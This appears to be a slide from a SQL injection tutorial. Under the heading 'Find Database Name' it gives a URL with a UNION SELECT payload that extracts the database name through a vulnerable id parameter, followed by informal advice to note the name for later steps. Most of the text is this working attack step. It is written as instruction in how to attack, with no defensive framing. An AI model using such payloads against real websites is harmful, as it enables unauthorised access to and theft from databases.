

# Find Database Name
http://www.examplesite.com/index.php?id=-5 union select 1,2,concat(database()) ,4,5,6,7,8,9,10—
Write that name down so you wont forget it. Lets say the database name i just extracted was named example database